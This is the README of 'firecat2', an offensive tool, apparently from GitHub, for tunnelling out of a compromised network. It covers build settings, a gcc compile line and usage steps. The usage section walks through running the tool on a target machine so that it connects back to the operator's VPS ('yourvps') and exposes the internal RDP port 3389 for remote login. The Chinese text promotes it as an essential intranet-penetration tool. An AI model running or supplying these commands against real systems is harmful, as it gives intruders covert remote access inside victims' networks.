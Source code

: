 # firecat2
Punch reverse TCP tunnels out of a compromised network, accessing any port on any system inside the compromised network from an external host.  
内网渗透（建立数据转发隧道）必备神器，没有之一。firecat2 移除了反弹shell代码，仅保留了转发tunnel功能。

Link  

https://www.bishopfox.com/resources/tools/other-free-tools/firecat/

###编译环境

Microsoft Visual Studio Professional 2012

OS 
Microsoft Windows Embedded 8.1 Industry Pro

on Linux
>gcc -o firecat.exe firecat.c -lwsock32


###注意几个地方
* 配置属性-常规 字符集  使用多字节字符集
* C/C++ -常规   附加包含目录 配置问include头文件目录
* 连接器-常规   附加库目录 配置为lib库文件目录
* 配置属性-常规 平台工具集 vs-xp(可选)
* 调试时, 在监视1窗口(Watch 1)中输入 $err,hr 获取GetLastError()


###如何使用

以转发内网3389端口为例

在你的VPS机器上监听80端口和任意端口（51）
>firecat -m 0 -t 80 -s 51

在目标机上回连你的VPS
>firecat -m 1 -h yourvps -t 80 -l localip -s 3389

本地mstsc连接 127.0.0.1:51

